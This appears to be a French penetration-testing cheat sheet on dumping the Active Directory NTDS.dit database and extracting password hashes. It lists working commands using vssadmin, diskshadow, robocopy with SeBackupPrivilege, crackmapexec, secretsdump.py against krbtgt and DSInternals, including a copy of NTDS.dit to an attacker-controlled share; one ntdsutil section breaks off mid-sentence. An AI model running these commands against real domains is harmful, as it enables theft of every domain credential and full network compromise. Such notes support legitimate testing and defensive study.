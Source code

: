 ```yaml
---
public: true
---
```

## Dump d'NTDS.dit
### Localement

#### Cliché instantané (vssadmin)

##### Créer une Shadow Copy (cliché instantanné) du disque C

La base NTDS.dit est par défaut stockée dans `C:\Windows\NTDS`

```
vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

##### Copier à partir du cliché instantanné

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit \\<Attacker_IP>\share\
```

#### Cliché instantanné (diskshadow.exe)

##### Créer une Shadow Copy (cliché instantanné) du disque C

```shell
diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

##### Copier à partir du cliché instantanné

**Remarque** :  Si le fichier n'est pas accessible et que l'on est membre du groupe *Backup Operator*, on pourra y accéder via le privilège **SeBackupPrivilege** (voir [[Exploitation des privilèges Windows]])

```
# cas 1 : Robocopy "sait" utiliser le privilège SeBackupPrivilege
robocopy /B E:\Windows\NTDS .\ntds ntds.dit

# cas 2 : sans robocopy, ce cmdlet est lié à un outil référencé dans le lien ci-dessus
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

#### Création d'une sauvegarde via ntdsutil (non testé)
Le fichier créé dans ce format pourra par la suite être exploité pour fournir des métriques sur différents éléments liés aux mots de passe et leur robuster via l'outil D
### A distance

```
crackmapexec smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --ntds

secretsdump.py -just-dc-user $AD_DOMAIN/krbtgt  $AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP

```

## Extraction des informations d'identification (credentials)

## Localement
### Extraction des informations présentes dans NTDS.dit via DSInternals

```powershell-session
# https://github.com/MichaelGrafnetter/DSInternals/releases/download/v4.12/DSInternals_v4.12.zip
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key


```

### A distance
#### Extraction des hash d'un dump NTDS.dit via secretsdump.py

Prérequis : disposer d'NTDS.dit et du dump SYSTEM via `reg save HKLM\SYSTEM SYSTEM.SAV`

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM.sav -hashes lmhash:nthash LOCAL
```
